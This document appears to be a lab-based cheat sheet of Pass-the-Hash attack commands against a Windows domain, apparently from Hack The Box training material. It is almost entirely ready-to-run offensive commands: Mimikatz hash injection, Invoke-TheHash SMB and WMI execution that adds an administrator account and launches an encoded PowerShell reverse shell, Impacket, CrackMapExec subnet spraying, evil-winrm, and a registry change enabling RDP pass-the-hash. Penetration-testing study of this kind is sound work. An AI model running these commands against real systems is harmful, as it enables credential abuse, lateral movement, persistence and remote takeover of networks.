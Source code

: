 # Pass the Hash

***

## Mimikatz

https://github.com/gentilkiwi/mimikatz

```cmd-session
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

sekurlsa::logonPasswords

## Invoke-TheHash PS

### SMB

The following command will use the SMB method for command execution to create a new user named mark and add the user to the Administrators group.

```powershell
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

We can also get a reverse shell connection in the target machine. https://www.revshells.com/

PowerShell#3 (Base64)

### WMI

```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e revSHELL"
```

## Impacket

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

* impacket-wmiexec
* impacket-atexec
* impacket-smbexec

## CrackMapExec

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add _--local-auth_ to our command.

#### Command Execution

```bash
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

## Evil-winrm

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

## RDP

Enable restricted Admin Mode

```powershell
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```powershell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
